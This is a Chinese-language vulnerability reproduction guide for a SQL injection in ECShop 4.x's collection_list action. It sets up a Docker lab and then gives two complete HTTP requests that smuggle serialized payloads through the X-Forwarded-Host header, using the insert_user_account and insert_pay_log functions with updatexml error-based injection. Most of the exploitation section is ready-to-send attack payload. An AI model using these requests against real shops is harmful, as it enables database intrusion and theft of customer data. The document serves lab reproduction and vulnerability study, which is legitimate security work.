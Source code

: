 # ECShop 4.x collection_list SQL注入

## 漏洞描述

ECShop是上海商派网络科技有限公司（ShopEx）旗下——B2C独立网店系统，适合企业及个人快速构建个性化网上商店，系统是基于PHP语言及MYSQL数据库构架开发的跨平台开源程序。

参考文章：

- https://mp.weixin.qq.com/s/xHioArEpoAqGlHJPfq3Jiw
- http://foreversong.cn/archives/1556

## 环境搭建

执行以下命令启动 ECShop 4.0.6：

```
docker-compose up -d
```

服务器启动后，访问`http://your-ip:8080`安装向导。数据库地址填写为`mysql`，用户名和密码均为`root`。

![image-20220222224056438](./images/202202222240560.png)

注册普通用户user。

![image-20220222224432161](./images/202202222244240.png)

## 漏洞复现

该漏洞的原理与[xianzhi-2017-02-82239600](https://github.com/vulhub/vulhub/tree/master/ecshop/xianzhi-2017-02-82239600)类似，可以利用任意`insert_`函数来实现SQL注入。

有多种`insert_`函数可以使用。例如，`insert_user_account`：

```
GET /user.php?act=collection_list HTTP/1.1
Host: your-ip:8080
X-Forwarded-Host: 45ea207d7a2b68c49582d2d22adf953auser_account|a:2:{s:7:"user_id";s:38:"0'-(updatexml(1,repeat(user(),2),1))-'";s:7:"payment";s:1:"4";}|45ea207d7a2b68c49582d2d22adf953a
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.122 Safari/537.36
Cookie: ECS_ID=f7b1398a0fdc189b691a6f1c969911ac1eea8fca;ECS[password]=445ac05c4ae0555ed091bb977b08581f;ECS[user_id]=3;ECS[username]=demo;ECS[visit_times]=2;ECSCP_ID=1a8bddd69b3b81efbe441a185ac52e7d24852d87;PHPSESSID=bb2033d66975ff7c2be29896d2d4260c;real_ipd=172.18.0.1;
Connection: close
```

![image-20220222225322409](./images/202202222253558.png)

请注意，您应该首先以普通用户身份登录。

`insert_pay_log`用作 POC ：

```
GET /user.php?act=collection_list HTTP/1.1
Host: 192.168.1.162:8080
X-Forwarded-Host: 45ea207d7a2b68c49582d2d22adf953apay_log|s:44:"1' and updatexml(1,repeat(user(),2),1) and '";|
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.122 Safari/537.36
Cookie: ECS_ID=f7b1398a0fdc189b691a6f1c969911ac1eea8fca;ECS[password]=445ac05c4ae0555ed091bb977b08581f;ECS[user_id]=3;ECS[username]=demo;ECS[visit_times]=2;ECSCP_ID=1a8bddd69b3b81efbe441a185ac52e7d24852d87;PHPSESSID=bb2033d66975ff7c2be29896d2d4260c;real_ipd=172.18.0.1;
Connection: close
```

![image-20220222225358070](./images/202202222253211.png)


